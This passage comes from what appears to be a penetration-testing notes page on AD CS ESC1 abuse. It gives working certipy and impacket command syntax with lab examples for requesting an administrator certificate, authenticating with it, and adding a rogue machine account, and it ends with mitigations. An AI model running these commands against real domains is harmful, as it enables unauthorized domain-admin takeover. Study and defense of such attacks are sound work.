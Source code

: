 <figure><img src="../../../.gitbook/assets/image (2124).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```python
# Syntax
certipy req -u <User@Domain.local> -p <Password> -dc-ip <IP> -ca <CA> -template <Template> -upn <User> -target <CA-IP>

# Example
certipy req -u truth@security.local -p Password1! -dc-ip 10.10.10.100 -ca Security-SRV2019-CA -template ESC1 -upn administrator -target 10.10.10.14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2126).png" alt=""><figcaption></figcaption></figure>

<pre class="language-python" data-overflow="wrap"><code class="lang-python"><strong># Syntax
</strong><strong>certipy auth -pfx &#x3C;certificate.pfx> -username &#x3C;User> -domain &#x3C;Domain> -dc-ip &#x3C;IP>
</strong>
# Example
certipy auth -pfx administrator.pfx -username administrator -domain security.local -dc-ip 10.10.10.100
</code></pre>

<figure><img src="../../../.gitbook/assets/image (2128).png" alt=""><figcaption></figcaption></figure>

### ESC1 - Linux - Machine Account

If a template has enrollment rights for domain computers, a machine account can be used to request a certificate to perform the attack.  This requires having a hash or  password value for a machine account or if the domains machine account quota is greater than zero, adding a new machine ourselves to complete the attack.

<pre class="language-python" data-overflow="wrap"><code class="lang-python"><strong># If we do not have existing credentials for a machine account
</strong># maybe we can add a new machine account to the domain
<strong>impacket-addcomputer security.local/truth:'Password1!' -computer-name EvilComputer$ -computer-pass Password123! -method SAMR -dc-ip 10.10.10.100
</strong></code></pre>

{% code overflow="wrap" %}
```python
# Syntax
certipy req -u <Computer$> -p <Password> -dc-ip <DC-IP> -ca <CA> -template <Template> -upn <User> -target <CA-IP>

# Example
certipy req -u EvilComputer$ -p Password123! -dc-ip 10.10.10.100 -ca Security-SRV2019-CA -template ESC1 -upn administrator -target 10.10.10.14
```
{% endcode %}

## Mitigations

* Remove the ENROLEE\_SUPPLIES\_SUBJECT flag from the certificate template
* Ensure Manager approval is required on the certificate
* Require authorized signatures
* If possible, remove Enrollment rights for low privileges groups such as Domain users and Domain Computers
